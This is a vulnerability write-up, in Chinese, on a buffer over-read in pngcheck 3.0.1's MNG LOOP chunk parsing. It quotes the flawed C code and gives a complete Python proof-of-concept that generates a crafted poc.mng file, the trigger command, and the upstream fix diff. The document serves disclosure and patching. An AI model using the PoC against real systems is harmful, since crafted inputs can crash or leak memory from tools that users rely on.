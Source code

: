 ```yaml
---
categories: [pngcheck, Vulns, Security]
tags: [Out-of-bounds Read]
---
```


# Vulns in pngcheck 3.0.1

## 漏洞概要

[pngcheck](http://www.libpng.org/pub/png/apps/pngcheck.html) 是一个用于验证 PNG / JNG / MNG 文件格式的命令行工具。该工具在处理 MNG LOOP 块时，由于未充分验证块大小 (`sz`)，导致缓冲区越界读取。

## 漏洞原理

源码地址：[http://www.libpng.org/pub/png/src/pngcheck-3.0.1.zip](http://www.libpng.org/pub/png/src/pngcheck-3.0.1.zip)

```c title="pngcheck.c" linenums="3809"
} else if (strcmp(chunkid, "LOOP") == 0) {
  if (png || jng) {
    printf("%s  LOOP not defined in %cNG\n", verbose? ":":fname,
      png? 'P':'J');
    set_err(kMinorError);
  } else if (sz < 5 || (sz > 6 && ((sz-6) % 4) != 0)) {
   printf("%s  invalid %slength\n",
      verbose? ":":fname, verbose? "":"LOOP ");
    set_err(kMajorError);
  }
  if (verbose && no_err(kMinorError)) {
    printf(":  nest level = %u\n    count = %lu, termination = %s\n",
      (unsigned)(buffer[0]), LG(buffer+1), sz == 5?
      termination_condition[0] :
      U2NAME(buffer[5] & 0x3, termination_condition));
      /* GRR:  not checking for valid buffer[1] values */
    if (sz > 6) {
      printf("    iteration min = %lu", LG(buffer+6));
      if (sz > 10) {
        printf(", max = %lu", LG(buffer+10));
        if (sz > 14) {
          long i, count = (sz-14) >> 2;

          printf(", signal number%s = %lu", (count > 1)? "s" : "",
            LG(buffer+14));
          for (i = 1;  i < count;  ++i)
            printf(", %lu", LG(buffer+14+(i<<2)));
        }
      }
      printf("\n");
    }
  }
  last_is_IDAT = last_is_JDAT = 0;
```

当 `sz` 大于缓冲区 `buffer` 的最大大小 `BS` (`32000`) 时，`for` 循环继续执行，造成越界读取。

## 漏洞复现

- POC 代码：[poc.py](https://github.com/13m0n4de/pngcheck-vulns/blob/main/vulns-3.0.1/poc.py)
- POC 图片：[poc.mng](https://github.com/13m0n4de/pngcheck-vulns/blob/main/vulns-3.0.1/poc.mng)

```python title="poc.py"
#!/usr/bin/env python3
"""
PNGCheck Vulnerability POC Generator
Generates POC file demonstrating buffer over-read
vulnerability in pngcheck 3.0.1
"""

import argparse
import pathlib
import zlib

from construct import Bytes, Const, GreedyRange, Int32ub, Struct, this

Chunk = Struct(
    "length" / Int32ub,
    "type" / Bytes(4),
    "data" / Bytes(this.length),
    "crc" / Int32ub,
)


MNG = Struct(
    "signature" / Const(b"\x8aM\x4e\x47\x0d\x0a\x1a\x0a"),
    "chunks" / GreedyRange(Chunk),
)


def create_chunk(chunk_type: bytes, chunk_data: bytes) -> dict:
    return {
        "length": len(chunk_data),
        "type": chunk_type,
        "data": chunk_data,
        "crc": zlib.crc32(chunk_type + chunk_data) & 0xFFFFFFFF,
    }


def generate_poc(output_path: pathlib.Path) -> None:
    # Command: pngcheck -v poc.mng
    chunks = [
        create_chunk(b"MHDR", b"\x00\x00\x00\x01\x00\x00\x00\x01" + b"\x00" * 20),
        create_chunk(
            b"LOOP",
            b"\x00"  # nest_level(1)
            + b"\x00\x00\x00\x01"  # iteration_count(4)
            + b"\x00"  # termination_condition(1)
            + b"\x00\x00\x00\x01" * 10000,  # Iteration_min(4) + ...
        ),
        create_chunk(b"MEND", b""),
    ]
    MNG.build_file(dict(chunks=chunks), output_path)


def main():
    parser = argparse.ArgumentParser(
        description=(
            "Generate POC files for pngcheck 3.0.1 buffer over-read "
            "vulnerability (unchecked chunk size in LOOP chunk)"
        )
    )
    parser.add_argument(
        "-o",
        "--output",
        type=pathlib.Path,
        default="poc.mng",
        help="Output file path (default: poc.mng)",
    )
    args = parser.parse_args()

    print("Generating POC...")
    generate_poc(args.output)
    print("POC file generated successfully")


if __name__ == "__main__":
    main()
```

```
$ ./pngcheck -v poc.mng
```

## 漏洞修复

官方在 v3.0.2 版本中通过添加 `sz > BS` 校验修复漏洞：

```diff
@@ -3815,8 +3815,12 @@
         printf("%s  invalid %slength\n",
           verbose? ":":fname, verbose? "":"LOOP ");
         set_err(kMajorError);
-      }
-      if (verbose && no_err(kMinorError)) {
+      } else if (sz > BS) {
+	/* FIXME: large LOOP chunks should be supported */
+        printf("%s  checking large %schunk not currently supported\n",
+          verbose? ":":fname, verbose? "":"LOOP ");
+        set_err(kMinorError);
+      } else if (verbose && no_err(kMinorError)) {
         printf(":  nest level = %u\n    count = %lu, termination = %s\n",
           (unsigned)(buffer[0]), LG(buffer+1), sz == 5?
           termination_condition[0] :
```

## 参考资料

- [pngcheck Home Page](http://www.libpng.org/pub/png/apps/pngcheck.html)
- [MNG (Multiple-image Network Graphics) Format](http://www.libpng.org/pub/mng/spec)
